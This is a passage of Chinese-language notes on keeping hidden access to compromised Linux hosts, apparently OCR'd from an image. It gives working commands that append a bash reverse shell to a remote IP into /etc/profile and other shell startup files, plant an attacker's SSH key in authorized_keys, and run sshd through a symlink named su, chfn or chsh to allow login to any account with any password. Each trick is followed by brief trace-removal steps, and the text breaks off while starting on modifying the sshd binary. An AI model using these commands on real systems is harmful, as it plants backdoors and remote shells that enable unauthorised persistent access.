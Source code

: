 echo 'bash -i >& /dev/tcp/192.168.2.1/7777 0>&1' >> /etc/profile
这样在重启的时候就会弹shell过来了,会根据登的哪个账号弹哪个账号的shell

以下文件需要高权限，为全局变量

/etc/profile
/etc/profile.d/*.sh
/etc/bashrc
/etc/bash.bashrc
以下为当前用户的环境变量

~/.bash_profile		#实验过程中没有反应
~/.profile				#登录后会接收shell，但是加载桌面时会卡住
~/.bashrc					#打开shell窗口时会接收shell，但正常的shell窗口会卡住
~/bash_logout			#实验过程中没有反应
清理痕迹

删除配置文件中添加的代码即可

写入ssh公钥
首先在本地生成ssh公钥和私钥

在自己的~/.ssh/目录下执行

ssh-keygen -t rsa
会生成以下三个文件，id_rsa.pub为公钥，id_rsa为私钥

id_rsa      id_rsa.pub  known_hosts
xxx为公钥内容，也就是id_rsa.pub的内容

echo "xxx" >> ~/.ssh/authorized_keys
清理痕迹

删除目标上的 ~/.ssh/authorized_keys即可

ssh任意密码登录
在root用户时，su，chfn，chsh命令不需要输入密码认证

通过软连接将ssh的服务进行cp，并重命名为以上命令

ln -sf /usr/sbin/sshd /tmp/su				#将sshd做软连接，软连接文件名为su或chfn或chsh
/tmp/su -oPort=12345								#通过软连接的文件，开启ssh连接-oPort指定开启端口
连接

ssh root@host -p 12345

#密码随便输入即可登录,并且可登录任意账号
清理方式

netstat -antp | gerp -E "su|chfn|chsh"
#找到进程号xxx
ps aux | grep xxx
#找到软连接位置/aaa/bbb/su
kill xxx
rm -rf /aaa/bbb/su
修改sshd文件做到无认证登录
建立连接时ssh服务器端使用的是sshd文件来管理接收到的连接，此时对sshd文件内容进行修改，则能做到无认证登录

将原先的sshd文件进行转义
